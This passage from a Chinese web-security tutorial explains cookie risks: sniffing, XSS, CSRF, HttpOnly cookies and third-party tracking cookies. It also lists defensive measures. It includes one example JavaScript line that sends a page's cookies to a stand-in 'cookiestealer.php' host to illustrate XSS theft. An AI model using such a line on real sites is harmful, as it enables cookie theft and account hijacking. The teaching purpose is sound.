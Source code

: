 Cookie 以 plain text 在网络上传输，容易受到 packet sniffing 攻击。

解决方案：

+ 将 cookie 设为 session cookie
+ 即使提供“remember me”，也设置1-2周后过期
+ 上 https，只通过 SSL/TLS 发送cookie
+ 基于用户信息生成随机的 session key，如：username, IP address, time of login, etc.
+ 在执行高安全风险操作时 re-validate the user，如：修改密码前打开login页，要求用户再次登录
+ 敏感网站和系统设置短的 expiration 时间
+ 同时验证HTTP请求的 referrer

尽管请求第三方 JS 资源不会带上当前页的 Cookie，但脚本可以访问它们。

原因：页面上所有 JavaScript 都被视为运行在与当前网页具有相同域 domain、路径 path 和协议 protocol 上。这意味着来自另一个域的脚本能通过 document.cookie 获取当前页面的 cookie。
如： a 网站加载来自 b 网站的 JS，如果脚本里包含如下内容：

    (new Image()).src = "http://www.b.com/cookiestealer.php?cookie=" + cookie.domain;

相当于默默地偷取了所有访问 a 网站用户的 cookie。这种将第三方 JavaScript 注入网页而发生的攻击，称为跨站点脚本（XSS）攻击。

如果一个页面用户输入即输出，即网页输出没有对用户输入做任何过滤，那么当输入文本里通过 `<script></script>` 开闭标记，包含了与上面相同代码，则 cookie 同样可能被盗。

另一种跟 cookie 相关的攻击是 cross-site request forgery (CSRF) 跨站请求伪造。攻击者让浏览器作为一个 logged-in 用户向恶意网站发送请求，如向攻击者账户转账。使用与 XSS 相同的方法。

### HTTP-Only cookie

这种类型的 Cookie 作为一种安全措施，旨在防止通过 JavaScript 窃取 Cookie，造成的跨站点脚本（XSS）攻击。
服务端通过添加 `HttpOnly` 标识创建 HTTP-Only Cookie，格式如下：
```
Set-Cookie: name=Wu; HttpOnly
```

+ JS代码**不能读取**到拥有 `HttpOnly` 标识的Cookie
+ JS也**不能设置** HTTP-only cookies

#### 实例

如下图所示：打开谷歌搜索结果页，在浏览器开发者工具-》Application-》Cookies里可以看到，当前页一共有4个cookies，其中3个都设置了 HttpOnly。

![5b759b4edae149dcb18999a68caffab7__20200414163558.png](http://tech.yuceyi.com/upload/5b759b4edae149dcb18999a68caffab7__20200414163558.png)

在浏览器开发者工具-》Console里运行以下代码，结果仅返回4个Cookies中没有设置HttpOnly标识的Cookie值。

![3516fb64d5764e798c3b9c81ec33ff6c__15868531938682.png](http://tech.yuceyi.com/upload/3516fb64d5764e798c3b9c81ec33ff6c__15868531938682.png)

### 第三方 cookie

有别于 First-party cookies，第一方 cookie 由所访问的网站（或域）直接存储。

html 允许引入其他网络资源，如通过 link、script、iframe 标签。由于 cookie 的限制，a 网站通过上述标签拉取 b 网站的资源时，不会包含 a 网站的 cookie，但是 b 网站很可能在响应里返回它自己的 cookie。因为同源策略，a 网站不能 access b 网站发来的 cookie，反之亦然。然而双方的 cookies 都存在 client 那里。这种情况我们称 b 网站设置了第三方 cookie。

当 b 网站接收到的 HTTP Referer 头部表明的请求来自 a 网站，b 网站可以发布特定的 cookieA 来标识 a 网站。如果随后相同的资源被 c 网站加载，而 cookieA 与请求一起发来，那么可以确定访问了 a 网站的人也访问了 c 网站。这就是常见的在线广告策略。这样的 cookie 也成为 **tracking cookie**。
